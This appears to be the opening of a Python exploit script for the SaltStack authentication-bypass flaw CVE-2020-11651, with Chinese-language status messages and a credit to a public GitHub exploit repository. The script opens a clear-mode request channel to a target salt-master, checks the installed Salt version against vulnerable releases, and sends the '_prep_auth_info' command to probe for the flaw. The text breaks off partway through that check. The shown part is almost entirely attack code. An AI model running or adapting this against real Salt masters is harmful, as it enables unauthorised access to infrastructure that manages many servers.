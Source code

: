 ```python
# BASE https://github.com/bravery9/SaltStack-Exp
# 微信公众号：台下言书
# -*- coding:utf-8 -*- -
from __future__ import absolute_import, print_function, unicode_literals
import argparse
import os
import sys
import datetime

import salt
import salt.version
import salt.transport.client
import salt.exceptions

DEBUG = False


def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')


def check_salt_version():
    print("[+] Salt 版本: {}".format(salt.version.__version__))

    vi = salt.version.__version_info__

    if (vi < (2019, 2, 4) or (3000,) <= vi < (3000, 2)):
        return True
    else:
        return False


def check_connection(master_ip, master_port, channel):
    print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
    sys.stdout.flush()
    try:
        channel.send({'cmd': 'ping'}, timeout=2)
        print('\033[1;32m可以连接\033[0m')
    except salt.exceptions.SaltReqTimeoutError:
        print("\033[1;31m无法连接\033[0m")
        sys.exit(1)


def check_CVE_2020_11651(channel):
    sys.stdout.flush()
    # try to evil
    try:
        rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
    except salt.exceptions.SaltReqTimeoutError:
        print("\033[1;32m不存在漏洞\033[0m")
    except:
```